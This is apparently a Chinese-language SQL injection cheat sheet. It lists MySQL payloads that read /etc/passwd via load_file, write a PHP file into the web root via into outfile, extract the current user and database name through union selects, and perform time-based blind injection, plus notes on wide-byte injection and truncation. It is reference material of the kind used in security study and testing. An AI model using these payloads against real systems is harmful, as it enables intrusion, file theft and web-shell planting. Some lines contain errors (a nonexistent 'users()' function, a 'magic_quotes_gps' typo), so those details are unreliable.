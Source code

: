 ### MySQL函数
```
# load_file()函数读文件
select 1,load_file('/etc/passwd'),3;
select 1,load_file(0x2f6574632f706173737764),3;
select hex(load_file(char(47,101,99,116,47,112,97,115,115,119,100))),3;

# into outfile函数写文件
select '<?php phpinfo();?>' into outfile '/var/www/html/info.php';
select char(99,58,92,50,46,116,120,116) into outfile '/var/www/html/info.php';

# 连接字符串
select * from bloodzer0 where id=1 union select concat(user(),',',database());

select * from bloodzer0 where id=1 union select concat_ws(0x2c,user(),database());
```

函数						|		说明
---							|		---	
length						|	返回字符串长度
substring					|	截取字符串长度
ascii						|	返回acsii码
hex							|	把字符串转换为16进制
unhex						|	hex的反向操作
now							|	当前系统时间
floor(x)					|	返回不大于X的最大整数值
md5							|	返回MD5值
group_concat				|	返回带有来自一个组的连接的非NULL值的字符串结果
@@datadir					|	读取数据库路径
@@basedir					|	MySQL安装路径
@@version_compile_os	|	操作系统
user						|	用户名
current_user				|	当前用户名
system_user				|	系统用户名
database					|	数据库名
version					|	MySQL数据库版本

### MySQL宽字节注入
```
成因：编码不统一造成，一般只出现在PHP+MySQL中；
magic_quotes_gps=On

编码：%d5
```

### MySQL长字符截断
* MySQL版本=5.1 并且 sql_mode=default

MySQL对于插入超过原本限制长度的值只会提示warning，而不是error，出现在web漏洞中的覆盖注册中。

### MySQL盲注
```
# 基于时间
select * from users where id=1 and sleep(3);
select * from users where id=1 and if(length(user())=0,sleep(3),1);
select * from users where id=1 and if(hex(mid(users(),1,1))=1,sleep(3),1);
```
